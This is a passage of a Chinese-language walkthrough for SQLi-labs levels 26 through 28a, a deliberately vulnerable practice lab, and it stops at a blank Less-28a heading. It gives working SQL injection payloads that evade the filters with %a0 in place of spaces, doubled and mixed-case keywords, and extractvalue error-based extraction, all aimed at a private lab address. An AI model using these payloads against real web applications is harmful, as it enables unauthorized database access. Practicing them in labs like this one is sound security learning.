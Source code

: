### 利用

其他一些url编码的符号可等同空格的作用，反正一共256个数字挨着试

### 注入

随便试了下 `http://192.168.130.131:8080/Less-26/?id=1'anandd%a0extractvalue("asda", concat("~", (select%a0database())))%a0anandd%a0'1'='1`

## Less-26a

### 分析

上一个的半个盲注版本。

`1'%a0anandd'1'='1`显示正确输出，初步判定为单引号闭合。在此基础上构造回显失败，继续判断。

`999')%a0union%a0select%a01,2,('3`回显成功，因此是单引号加括号闭合。

## Less-27

### 分析

输入 `1'`，报错 `'1'' LIMIT 0,1`，初步判定为单引号闭合；空格被去掉；union、select被去掉，可双写绕过，可大小写绕过；注释被去掉；

### 注入

`http://192.168.130.131:8080/Less-27/?id=99991'%a0uniounionn%a0SeLecT%a01,2,'3 `

## Less-27a

### 分析

上题半个盲注版本，测试出为双引号闭合

`9991"%a0uniounionn%a0SeLecT%a01,2,"3`

## less-28

### 分析

使用 `%a0`绕过空格过滤，双写、大小写绕过关键字过滤，猜一下闭合

### 注入

`http://192.168.130.131:8080/Less-28/?id=999')%a0UnioN%a0SeLeCt%a01,2,('3`

## Less-28a

### 分析
